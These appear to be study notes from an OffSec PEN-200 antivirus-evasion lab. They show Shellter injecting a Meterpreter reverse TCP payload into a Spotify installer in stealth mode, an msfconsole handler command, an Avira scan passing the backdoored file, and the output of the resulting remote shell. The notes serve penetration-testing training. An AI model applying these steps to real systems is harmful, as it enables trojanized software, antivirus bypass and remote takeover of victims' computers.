 ```
root@kali:~# dpkg --add-architecture i386 && apt-get update &&
apt-get install wine32
```

Initial shellter console

![Figure 9: Initial shellter console.](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/835d4a528487a075a0742e8187932e77-antivirus_evasion_05.png)

Selecting A for auto mode and a target PE, spotifysetup.exe.

Spotifysetup.exe should be installed on local machine at `/home/kali/desktop/spotifysetup.exe`

Shellter backs up this file. 

![Figure 10: Selecting a target PE in shellter and performing a backup](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/7c49cd2d7e2afd9639c73a1de9b7765a-antivirus_evasion_06.png)

Shellter then searches for a place to inject our payload and prompts us to enable Stealth Mode.

Answering yes means spotify will behave normally after injection so obvi we want that. 

Then Shellter gives us a list of payloads to choose from or use a custom payload.

![Figure 11: List of payloads available in shellter](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/61057955413c0439bd528b59c6a814a1-antivirus_evasion_07.png)

Type  "L" and then "1" to use `Meterpreter_Reverse_TCP` payload

Set LHOST and LPORT to Kali's IP and port.

Shellter INJECC (first instruction of payload)

![Figure 13: shellter verifying the injection](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/f116295bbacceb3e7ba812feed277d09-antivirus_evasion_09.png)

Before transferring payload, 

Configure a listener / handler with #msfconsole 

```shell
kali@kali:~$ msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
...
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => 192.168.50.1
LPORT => 443
[*] Started reverse TCP handler on 192.168.50.1:443
```

Transfer backdoored Spotify installer to target Windows 11. 

Run Avira Quick Scan. All clear.

![Figure 14: Running a Quick Scan using Avira](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/7db267064c50f3b98a2a0d02c57fff9d-antivirus_evasion_10.png)

Execute the file.

Receive a Meterpreter shell

```
...
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => 192.168.50.1
LPORT => 443
[*] Started reverse TCP handler on 192.168.50.1:443
[*] Sending stage (175174 bytes) to 192.168.50.62
[*] Meterpreter session 1 opened (192.168.50.1:443 -> 192.168.50.62:52273)...

meterpreter > shell
Process 6832 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22000.739]
```